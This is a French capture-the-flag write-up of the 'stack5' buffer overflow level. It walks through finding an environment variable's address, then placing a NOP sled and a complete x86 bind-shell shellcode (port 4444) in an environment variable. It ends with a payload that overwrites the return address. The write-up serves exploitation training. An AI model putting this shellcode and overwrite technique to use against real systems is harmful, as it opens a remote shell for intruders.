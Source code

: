 ```shellsession
$ ./stack5
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFF
Segmentation fault
$ dmesg|tail -1
[11798.886479] stack5[1922]: segfault at 45454545 ip 45454545 sp bffffcf0 error 4
```

Au lieu de simplement zapper ce level voici un cas d'exploitation locale à l'ancienne.

J'écris d'abord le code suivant qui permet d'avoir l'adresse d'une variable d'environnement telle que chargée en mémoire (c'est le linker commun à tous les programmes qui se charge de les mettre dans la mémoire du programme) :

```c
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char *argv[]) {
        printf("%s is at %p\n", argv[1], getenv(argv[1]));
        return 0;
}
```

On va affichier l'adresse de la variable d'environnement GREENIE utilisée plus tôt :

```shellsession
$ $ ./getaddr GREENIE
GREENIE is at 0xbfffff2c
$ ./getaddr GREENIE
GREENIE is at 0xbfffff2c
$ export A=B
$ ./getaddr GREENIE
GREENIE is at 0xbfffff28
```

On voit que l'adresse est assez stable mais sujette aux décalages si l'environnement évolue. Le nom du programme lancé fait aussi partie des données qui peuvent causer un décalage.

Maintenant je créé un nouvelle variable d'environnement qui contient un shellcode précédé d'un NOPsled :

```shellsession
$ export SHELLCODE=`python -c 'print "\x90" * 200 + "\x31\xc0\x31\xdb\xb0\x66\xb3\x01\x31\xd2\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0\x66\xb3\x02\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x52\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x52\x56\x89\xe1\xcd\x80\x89\xc6\x31\xc9\xb0\x3f\x89\xf3\xcd\x80\xfe\xc1\x66\x83\xf9\x02\x7e\xf2\x31\xc0\x50\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`
```

Il s'agit de [Linux/x86 - Bind (User Specified Port) Shell (/bin/sh) Shellcode (102 bytes)](https://www.exploit-db.com/shellcodes/50124) qui écoute par défaut sur le port 4444.

J'écrase l'adresse de retour par l'adresse du shellcode telle qu'elle devrait être en mémoire :

```shellsession
$ /tmp/getaddr SHELLCODE
SHELLCODE is at 0xbffffec0
$ python -c 'print "z"*76 + "\xc0\xfe\xff\xbf"' | ./stack5
```
